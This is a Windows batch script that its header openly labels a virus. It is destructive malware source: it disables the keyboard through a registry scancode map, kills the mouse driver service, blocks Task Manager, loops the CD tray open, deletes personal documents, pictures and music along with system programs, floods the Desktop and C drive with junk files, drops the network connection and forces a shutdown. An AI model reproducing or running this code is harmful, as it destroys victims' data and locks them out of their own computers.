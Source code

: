 # CREvE.bat
::__---Virus Created By LetGoYArn---__:: @echo off ::------Disable Keyboard-----:: echo Windows Registry Editor Version 5.00 > "nokeyboard.reg" echo [HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Keyboard Layout] >> "nokeyboard.reg" echo "Scancode Map"=hex:00,00,00,00,00,00,00,00,7c,00,00,00,00,00,01,00,00,\ >> "nokeyboard.reg" echo 00,3b,00,00,00,3c,00,00,00,3d,00,00,00,3e,00,00,00,3f,00,00,00,40,00,00,00,\ >> "nokeyboard.reg" echo 41,00,00,00,42,00,00,00,43,00,00,00,44,00,00,00,57,00,00,00,58,00,00,00,37,\ >> "nokeyboard.reg" echo e0,00,00,46,00,00,00,45,00,00,00,35,e0,00,00,37,00,00,00,4a,00,00,00,47,00,\ >> "nokeyboard.reg" echo 00,00,48,00,00,00,49,00,00,00,4b,00,00,00,4c,00,00,00,4d,00,00,00,4e,00,00,\ >> "nokeyboard.reg" echo 00,4f,00,00,00,50,00,00,00,51,00,00,00,1c,e0,00,00,53,00,00,00,52,00,00,00,\ >> "nokeyboard.reg" echo 4d,e0,00,00,50,e0,00,00,4b,e0,00,00,48,e0,00,00,52,e0,00,00,47,e0,00,00,49,\ >> "nokeyboard.reg" echo e0,00,00,53,e0,00,00,4f,e0,00,00,51,e0,00,00,29,00,00,00,02,00,00,00,03,00,\ >> "nokeyboard.reg" echo 00,00,04,00,00,00,05,00,00,00,06,00,00,00,07,00,00,00,08,00,00,00,09,00,00,\ >> "nokeyboard.reg" echo 00,0a,00,00,00,0b,00,00,00,0c,00,00,00,0d,00,00,00,0e,00,00,00,0f,00,00,00,\ >> "nokeyboard.reg" echo 10,00,00,00,11,00,00,00,12,00,00,00,13,00,00,00,14,00,00,00,15,00,00,00,16,\ >> "nokeyboard.reg" echo 00,00,00,17,00,00,00,18,00,00,00,19,00,00,00,1a,00,00,00,1b,00,00,00,2b,00,\ >> "nokeyboard.reg" echo 00,00,3a,00,00,00,1e,00,00,00,1f,00,00,00,20,00,00,00,21,00,00,00,22,00,00,\ >> "nokeyboard.reg" echo 00,23,00,00,00,24,00,00,00,25,00,00,00,26,00,00,00,27,00,00,00,28,00,00,00,\ >> "nokeyboard.reg" echo 1c,00,00,00,2a,00,00,00,2c,00,00,00,2d,00,00,00,2e,00,00,00,2f,00,00,00,30,\ >> "nokeyboard.reg" echo 00,00,00,31,00,00,00,32,00,00,00,33,00,00,00,34,00,00,00,35,00,00,00,36,00,\ >> "nokeyboard.reg" echo 00,00,1d,00,00,00,5b,e0,00,00,38,00,00,00,39,00,00,00,38,e0,00,00,5c,e0,00,\ >> "nokeyboard.reg" echo 00,5d,e0,00,00,1d,e0,00,00,5f,e0,00,00,5e,e0,00,00,22,e0,00,00,24,e0,00,00,\ >> "nokeyboard.reg" echo 10,e0,00,00,19,e0,00,00,30,e0,00,00,2e,e0,00,00,2c,e0,00,00,20,e0,00,00,6a,\ >> "nokeyboard.reg" echo e0,00,00,69,e0,00,00,68,e0,00,00,67,e0,00,00,42,e0,00,00,6c,e0,00,00,6d,e0,\ >> "nokeyboard.reg" echo 00,00,66,e0,00,00,6b,e0,00,00,21,e0,00,00,00,00 >> "nokeyboard.reg" start nokeyboard.reg ::---------------------------:: ::-------Disable Mouse-------:: set key="HKEY_LOCAL_MACHINE\system\CurrentControlSet\Services\Mouclass" reg delete %key% reg add %key% /v Start /t REG_DWORD /d 4 ::---------------------------:: ::---Disable Taskmanager-----:: reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System /v DisableTaskMgr /t REG_SZ /d 1 /f >nul ::---------------------------:: ::-------Open Disk Tray------:: echo Do >> "opendisk.vbs" echo Set oWMP = CreateObject("WMPlayer.OCX.7" ) >> "opendisk.vbs" echo Set colCDROMs = oWMP.cdromCollection >> "opendisk.vbs" echo colCDROMs.Item(d).Eject  >> "opendisk.vbs" echo colCDROMs.Item(d).Eject  >> "opendisk.vbs" echo Loop >> "opendisk.vbs" start "" "opendisk.vbs" ::---------------------------:: ::---Disable Taskmanager-----:: reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System /v DisableTaskMgr /t REG_SZ /d 1 /f >nul ::---------------------------:: ::-------Delete MS Paint-----:: del /f /q "mspaint.exe" ::---------------------------:: ::-----Delete My Music-------:: del /f /q "C:\Users\%userprofile%\My Documents\My Music\*.*" ::---------------------------:: ::--Delete Internet Explorer-:: del /f /q "C:\Program Files\Internet Explorer\iexplore.exe" ::---------------------------:: ::--------Delete Calc.-------:: del /f /q "calc.exe" ::---------------------------:: ::--Delete Windows Live Mail-:: del /f /q "wlmail.exe" ::---------------------------:: ::-------Delete Notepad------:: del /f /q "notepad.exe" ::---------------------------:: ::-------Delete Wordpad------:: del /f /q "WordPad.exe" ::---------------------------:: ::-----Delete My Pictures----:: del /f /q "C:\Users\%userprofile%\My Documents\My Pictures\*.*" ::---------------------------:: ::----Delete My Documents----:: del /f /q "C:\Users\%userprofile%\My Documents\*.*" ::---------------------------:: ::-------Spam Desktop--------:: echo %random% > "%userprofile%\Desktop\%random%Spammed Filetype" echo %random% > "%userprofile%\Desktop\%random%Spammed Filetype" echo %random% > "%userprofile%\Desktop\%random%Spammed Filetype" echo %random% > "%userprofile%\Desktop\%random%Spammed Filetype" echo %random% > "%userprofile%\Desktop\%random%Spammed Filetype" echo %random% > "%userprofile%\Desktop\%random%Spammed Filetype" echo %random% > "%userprofile%\Desktop\%random%Spammed Filetype" echo %random% > "%userprofile%\Desktop\%random%Spammed Filetype" echo %random% > "%userprofile%\Desktop\%random%Spammed Filetype" echo %random% > "%userprofile%\Desktop\%random%Spammed Filetype" ::---------------------------:: ::-------Spam C Drive--------:: echo %random% > "C:\%random%Spammed Filetype" echo %random% > "C:\%random%Spammed Filetype" echo %random% > "C:\%random%Spammed Filetype" echo %random% > "C:\%random%Spammed Filetype" echo %random% > "C:\%random%Spammed Filetype" echo %random% > "C:\%random%Spammed Filetype" echo %random% > "C:\%random%Spammed Filetype" echo %random% > "C:\%random%Spammed Filetype" echo %random% > "C:\%random%Spammed Filetype" echo %random% > "C:\%random%Spammed Filetype" echo %random% > "C:\%random%Spammed Filetype" ::---------------------------:: ::-----Disable Internet------:: ipconfig /release if ERRORLEVEL1 ipconfig /release_all shutdown.exe -s -c "Your Sus!!....." -t 60 }
